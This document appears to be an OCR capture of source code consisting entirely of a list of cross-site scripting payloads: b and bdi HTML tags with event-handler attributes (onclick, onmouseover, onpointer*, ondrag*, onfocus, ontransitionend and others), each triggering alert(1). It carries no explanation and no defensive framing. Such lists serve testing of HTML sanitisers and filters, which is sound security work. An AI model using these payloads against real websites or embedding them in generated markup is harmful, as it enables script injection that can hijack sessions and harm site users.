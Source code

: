 <b onclick="alert(1)" style=display:block>test</b>
<b oncontextmenu="alert(1)" style=display:block>test</b>
<b oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<b oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<b ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</b>
<b onfocusout=alert(1) id=x tabindex=1 style=display:block>test</b><input value=clickme>
<b onkeydown="alert(1)" contenteditable style=display:block>test</b>
<b onkeypress="alert(1)" contenteditable style=display:block>test</b>
<b onkeyup="alert(1)" contenteditable style=display:block>test</b>
<b onmousedown="alert(1)" style=display:block>test</b>
<b onmouseenter="alert(1)" style=display:block>test</b>
<b onmouseleave="alert(1)" style=display:block>test</b>
<b onmousemove="alert(1)" style=display:block>test</b>
<b onmouseout="alert(1)" style=display:block>test</b>
<b onmouseover="alert(1)" style=display:block>test</b>
<b onmouseup="alert(1)" style=display:block>test</b>
<b onmousewheel=alert(1) style=display:block>requires scrolling
<b onpaste="alert(1)" contenteditable>test</b>
<b onpointerdown=alert(1) style=display:block>XSS</b>
<b onpointerenter=alert(1) style=display:block>XSS</b>
<b onpointerleave=alert(1) style=display:block>XSS</b>
<b onpointermove=alert(1) style=display:block>XSS</b>
<b onpointerout=alert(1) style=display:block>XSS</b>
<b onpointerover=alert(1) style=display:block>XSS</b>
<b onpointerrawupdate=alert(1) style=display:block>XSS</b>
<b onpointerup=alert(1) style=display:block>XSS</b>
<bdi draggable="true" ondrag="alert(1)" style=display:block>test</bdi>
<bdi draggable="true" ondragend="alert(1)" style=display:block>test</bdi>
<bdi draggable="true" ondragenter="alert(1)" style=display:block>test</bdi>
<bdi draggable="true" ondragleave="alert(1)" style=display:block>test</bdi>
<bdi draggable="true" ondragstart="alert(1)" style=display:block>test</bdi>
<bdi id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></bdi>
<bdi id=x tabindex=1 onfocus=alert(1)></bdi>
<bdi id=x tabindex=1 onfocusin=alert(1)></bdi>
<bdi onafterscriptexecute=alert(1)><script>1</script>
<bdi onbeforecopy="alert(1)" contenteditable>test</bdi>
<bdi onbeforecut="alert(1)" contenteditable>test</bdi>
<bdi onbeforescriptexecute=alert(1)><script>1</script>
<bdi onblur=alert(1) id=x tabindex=1 style=display:block>test</bdi><input value=clickme>
<bdi onclick="alert(1)" style=display:block>test</bdi>
<bdi oncontextmenu="alert(1)" style=display:block>test</bdi>
<bdi oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<bdi oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<bdi ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</bdi>
<bdi onfocusout=alert(1) id=x tabindex=1 style=display:block>test</bdi><input value=clickme>
<bdi onkeydown="alert(1)" contenteditable style=display:block>test</bdi>
<bdi onkeypress="alert(1)" contenteditable style=display:block>test</bdi>
<bdi onkeyup="alert(1)" contenteditable style=display:block>test</bdi>
<bdi onmousedown="alert(1)" style=display:block>test</bdi>
<bdi onmouseenter="alert(1)" style=display:block>test</bdi>
<bdi onmouseleave="alert(1)" style=display:block>test</bdi>
<bdi onmousemove="alert(1)" style=display:block>test</bdi>
<bdi onmouseout="alert(1)" style=display:block>test</bdi>
<bdi onmouseover="alert(1)" style=display:block>test</bdi>
<bdi onmouseup="alert(1)" style=display:block>test</bdi>
<bdi onmousewheel=alert(1) style=display:block>requires scrolling
<bdi onpaste="alert(1)" contenteditable>test</bdi>
<bdi onpointerdown=alert(1) style=display:block>XSS</bdi>
<bdi onpointerenter=alert(1) style=display:block>XSS</bdi>
<bdi onpointerleave=alert(1) style=display:block>XSS</bdi>
<bdi onpointermove=alert(1) style=display:block>XSS</bdi>
<bdi onpointerout=alert(1) style=display:block>XSS</bdi>
<bdi onpointerover=alert(1) style=display:block>XSS</bdi>
<bdi onpointerrawupdate=alert(1) style=display:block>XSS</bdi>